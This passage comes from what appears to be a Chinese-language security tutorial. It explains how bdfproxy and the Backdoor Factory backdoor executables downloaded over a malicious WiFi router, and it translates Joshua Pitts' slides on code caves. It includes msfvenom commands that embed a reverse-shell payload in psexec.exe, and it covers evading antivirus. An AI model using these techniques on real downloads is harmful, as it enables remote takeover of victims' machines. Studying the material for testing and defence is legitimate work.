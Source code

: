 目标设备请求putty.exe->WooyunWifi路由器转发->安全测试设备（bdfproxy）拦截到请求->bdfproxy根据配置请求BDF挂后门->BDF请求Metasploit生成后门SHELLCODE->把SHELLCODE填进CAVE中（一会儿解释）->响应发回目标设备->目标设备下载完无异常于是执行->执行SHELLCODE->反弹SHELL给Metasploit

大家最关心的肯定是BDF挂后门时的CAVE是什么意思，下面以Joshua Pitts（BDF作者，He is awesome！！！）的PPT来翻译讲解BDF的原理，给出PPT原地址，翻译时格式有改动内容有删改：

http://www.slideshare.net/midnite_runr/patching-windows-executables-with-the-backdoor-factory

Metasploit挂后门的方式：

```
msfvenom –p windows/shell_reverse_tcp –x psexec.exe … 这是覆盖掉原来程序入口点的方式

msfvenom –p windows/shell_reverse_tcp –x psexec.exe –k … 这是分配并创建一个新的线程然后跳转回原始程序入口点的方式（Keep 保留方式）

```

覆盖掉程序入口点之前：

[![](http://static.wooyun.org//drops/20150811/2015081103412210861.png)](http://drops.wooyun.org/wp-content/uploads/2015/08/before_overwrite.png)

覆盖掉程序入口点之后：

[![](http://static.wooyun.org//drops/20150811/2015081103412273230.png)](http://drops.wooyun.org/wp-content/uploads/2015/08/after.png)

覆盖程序入口点方式的好处和弊端：

```
好处：攻击者可以拿到SHELL
好处：EXE文件大小没有改变
坏处：程序无法继续执行（崩掉了）

```

创建新线程但是保留程序入口点方法：

[![](http://static.wooyun.org//drops/20150811/2015081103412269855.png)](http://drops.wooyun.org/wp-content/uploads/2015/08/after_keep.png)

可以明显地看到新增了一个RWE的code section

[![](http://static.wooyun.org//drops/20150811/2015081103412223484.png)](http://drops.wooyun.org/wp-content/uploads/2015/08/before_keep.png)

创建新线程但是保留程序入口点方法的好处和弊端：

```
好处：拿到SHELL并且程序可以继续执行
坏处：容易被杀毒软件侦测到
坏处：文件大小增加了

```

CTP方式挂后门：

添加一个新的code section，这和保留程序入口点的msfvenom Keep方式相似，然后使用存在的code Caves来加解密新加的code section中的SHELLCODE（我们尝试过xor加密，但是已经对杀毒软件没啥用了）

[![](http://static.wooyun.org//drops/20150811/2015081103412282155.png)](http://drops.wooyun.org/wp-content/uploads/2015/08/ctp.png)
